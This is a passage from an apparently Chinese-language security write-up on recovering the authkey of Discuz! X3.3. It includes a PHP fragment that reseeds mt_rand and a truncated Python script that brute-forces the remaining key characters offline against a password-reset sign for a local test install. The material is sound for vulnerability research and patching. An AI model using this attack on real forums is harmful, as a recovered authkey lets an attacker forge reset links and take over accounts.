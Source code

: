 ```
	if(preg_match("/seed = (\d)+/", $b, $matach)){
		$m = $matach[0];
	}else{
		continue;
	}
	// var_dump(substr($m,7));
	mt_srand(substr($m,7));
	fwrite($fp2, random(10)."\n");
}
fclose($fp);
fclose($fp2);
```

当我们获得了所有的后缀时，我们需要配合爆破6位字符（0-9a-f）来验证authkey的正确性,由于的数量差不多16**6*200+,为了在有限的时间内爆破出来，我们需要使用一个本地爆破的方式。

这里使用了找回密码中的id和sign参数，让我们一起来看看逻辑。

当我们点击忘记密码的时候。

会进入`/source/module/member/member_lostpasswd.php` 65行生成用于验证的sign值。

![image.png-109.2kB][4]

跟随make_getpws_sign函数进入`/source/function/function_member.php`
![image.png-61.1kB][5]

然后进入dsign函数，配合authkey生成结果
![image.png-50.8kB][6]

这里我们可以用python模拟这个过程，然后通过找回密码获得uid、id、sign，爆破判断结果。

脚本如下
```
# coding=utf-8

import itertools
import hashlib
import time

def dsign(authkey):
	url = "http://127.0.0.1/dz3.3/"
	idstring = "vnY6nW"
	uid = 2
	uurl = "{}member.php?mod=getpasswd&uid={}&id={}".format(url, uid, idstring)

	url_md5 = hashlib.md5(uurl+authkey)
	return url_md5.hexdigest()[:16]


def main():
	sign = "af3b937d0132a06b"

	str_list = "0123456789abcdef"

	with open('result2.txt') as f:
		ranlist = [s[:-1] for s in f]

	s_list = sorted(set(ranlist), key=ranlist.index)

	r_list = itertools.product(str_list, repeat=6)

	print "[!] start running...."
	s_time = time.time()

	for j in r_list:
```

  [1]: http://static.zybuluo.com/LoRexxar/27by3pv6j16qauhgebbrapvr/image.png
  [2]: http://static.zybuluo.com/LoRexxar/vd44ejapmbdfwnq8z8vklxb1/image.png
  [3]: http://static.zybuluo.com/LoRexxar/4q78iyn4bndzmtarrcrk43wn/image.png
  [4]: http://static.zybuluo.com/LoRexxar/737c9gqg6cdtlo4aryxpnxwe/image.png
  [5]: http://static.zybuluo.com/LoRexxar/fu70qeqhk55gw55xm0qwkbk2/image.png
  [6]: http://static.zybuluo.com/LoRexxar/fdmabv7avbqd1w5libd3j0g3/image.png
  [7]: http://static.zybuluo.com/LoRexxar/cipp76y0aw4wz33z3c7ambth/image.png
  [8]: http://static.zybuluo.com/LoRexxar/fmwrfzfbm4jjrv1nsm8e92r0/image.png
  [9]: http://static.zybuluo.com/LoRexxar/n882uz5x3qrymr6ljsb89brm/image.png
  [10]: http://static.zybuluo.com/LoRexxar/dgu0bdnhje2u2caxy0q5bmgs/image.png
  [11]: http://static.zybuluo.com/LoRexxar/4q78iyn4bndzmtarrcrk43wn/image.png
  [12]: http://static.zybuluo.com/LoRexxar/ivok9agi1lurxhe4xkst4vyj/image.png
  [13]: http://static.zybuluo.com/LoRexxar/cipp76y0aw4wz33z3c7ambth/image.png
  [14]: http://static.zybuluo.com/LoRexxar/jeddzeumksc2zm7ioph0ybk3/image.png
  [15]: http://static.zybuluo.com/LoRexxar/g0fipnw0vrrsojjmnfsc9mtg/image.png
  [16]: http://static.zybuluo.com/LoRexxar/vl37a7f8giy88mbhndxkbb9x/image.png
